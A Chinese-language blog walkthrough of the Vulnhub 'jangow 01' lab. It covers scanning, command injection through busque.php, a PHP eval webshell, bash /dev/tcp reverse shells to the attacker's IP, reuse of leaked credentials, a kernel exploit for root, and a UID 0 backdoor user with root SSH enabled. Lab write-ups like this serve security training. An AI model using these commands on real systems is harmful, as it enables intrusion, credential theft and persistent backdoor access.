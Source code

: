 ```yaml
---
layout: post
title: jangow 01
subtitle: jangow 01
date: 2022-12-15 12:04
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - Vulnhub
category: 靶场实战
---
```

## jangow 01

靶机ip：192.168.56.118

kali攻击机ip：172.17.46.146

### 1. nmap扫描IP

靶机IP已知：

```shell
nmap -A 192.168.56.118
```

![image-20221215120422075.png](https://kyonk.v6.army:1443/KlHhcv.png)

### 2. 扫描目录

```shell
dirb http://192.168.56.118
```

```
http://192.168.56.118/server-status
http://192.168.56.118/site/index.html
http://192.168.56.118/site/wordpress/index.html
```

### 3. 访问网站

http://192.168.56.118

点击`site`进入新的页面，查看源码发现：

![image-20221215121549451.png](https://kyonk.v6.army:1443/HuwqNT.png)

```html
 <li class="nav-item"><a class="nav-link" href="busque.php?buscar=">Buscar</a></li>
```

在地址栏输入参数判断此处有命令执行漏洞

![image-20221215121829007.png](https://kyonk.v6.army:1443/OJ5Thb.png)

使用burp suit进一步测试

```
cat+busque.php
<?php system($_GET['buscar']); ?>
echo+"bash+-c+'0<%262-%3bexec+22<>/dev/tcp/172.17.46.146/4444%3bsh+<%2622+>%2622+2>%2622'"+>+shell.sh
find+/+-perm+-4000+2>/dev/null
```

经测试，能写入文件，但无法ping通kaliIP，无法反弹shell。使用一句话木马+antsword

```
buscar=echo '<?php @eval($_POST['para']); ?>' > test.php
```

成功连接，发现/site/wordpress/config.php 内容有用户名和密码。访问后报错

```
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
```

发现/.backup文件

```
$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
```

尝试修改config.php中database和username。再次访问仍报错

目标机开启了21和80端口。尝试用户名密码登录ftp

```
ftp 192.168.56.118
desafio02 abygurl69
失败
ftp 192.168.56.118
jangow01 abygurl69
成功
```

![image-20221219214101588.png](https://kyonk.v6.army:1443/W3o0Y2.png)

进入后是在/var/www目录下，没什么收获，继续用AntSword

发现 /home/jangow01/user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

MD5解码

```
查询结果：
[空密码]/[Empty String]
```

```
systemd-private-d6139d42208945be97253054fca34ee2-systemd-timesyncd.service-cCdsLz
```

### 4. 反弹shell

使用AntSword的shell有时无回显，尝试反弹shell

在site目录下新建shell.sh写入如下内容，在终端执行

```shell
bash -c '0<&2-;exec 22<>/dev/tcp/192.168.56.102/443;sh <&22 >&22 2>&22'
```

==只有443端口可以，其他端口无法连接==

kali成功获取shell

![image-20221220154726740.png](https://kyonk.v6.army:1443/ReFxXh.png)

升级tty shell，输入

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20221220154914986.png](https://kyonk.v6.army:1443/JWFfqu.png)

成功升级界面，并切换到jangow01用户

![image-20221220155027321.png](https://kyonk.v6.army:1443/At7d64.png)

可尝试suid提权。

这里选择内核漏洞提权

### 5. 提升权限

```shell
uname -a #查看系统内核
# Linux jangow01 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
searchsploit ubuntu 4.4.0-31 #查找相关漏洞
```

![image-20221220155427153.png](https://kyonk.v6.army:1443/gFLQso.png)

使用**linux/local/45010.c** 。将文件复制下来，并编译

```shell
searchsploit -m 45010.c
gcc 44298.c -o 45010
```

![image-20221220155715500.png](https://kyonk.v6.army:1443/mPn78M.png)

可以使用ftp或AntSword上传到目标机**/home/jangow01/**目录下

```
ftp 192.168.56.118
jangow01
abygurl69
cd /home/jangow01
put 45010
ls
```

![image-20221220160244999.png](https://kyonk.v6.army:1443/8ZDtbp.png)

**chmod +x 45010** 添加权限后执行

成功获取root权限。发现root目录下proof.txt文件，内容：

```
da39a3ee5e6b4b0d3255bfef95601890afd80709
```

MD5查询结果：
[空密码]/[Empty String]

### 6. 权限维持

添加root用户

```shell
# 创建一个用户名guest，密码123456的root用户
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

排查技巧：

```shell
# 查询特权用户特权用户(uid 为0)
awk -F: '$3==0{print $1}' /etc/passwd
# 查询可以远程登录的帐号信息
awk '/\$1|\$6/{print $1}' /etc/shadow
# 除root帐号外，其他帐号是否存在sudo权限。如非管理需要，普通帐号应删除sudo权限more /etc/sudoers | grep -v "^#\|^$" | grep "ALL=(ALL)"
```

查看防火墙状态

```shell
ufw status
cat /etc/ufw/user.rules
```

打开或关闭某个端口

```shell
sudo ufw allow smtp　允许所有的外部IP访问本机的25/tcp (smtp)端口
udo ufw allow 22/tcp 允许所有的外部IP访问本机的22/tcp (ssh)端口
sudo ufw allow 53 允许外部访问53端口(tcp/udp)
sudo ufw allow from 192.168.1.100 允许此IP访问所有的本机端口
sudo ufw allow proto udp 192.168.0.1 port 53 to 192.168.0.2 port 53
sudo ufw deny smtp 禁止外部访问smtp服务
sudo ufw delete allow smtp 删除上面建立的某条规则
```

开启22端口

```shell
ufw allow 22/tcp
vi /etc/ssh/sshd_config
# 将#PermitRootLogin without-password改为PermitRootLogin yes
echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config
输入/etc/init.d/ssh restart ，重启下ssh服务
```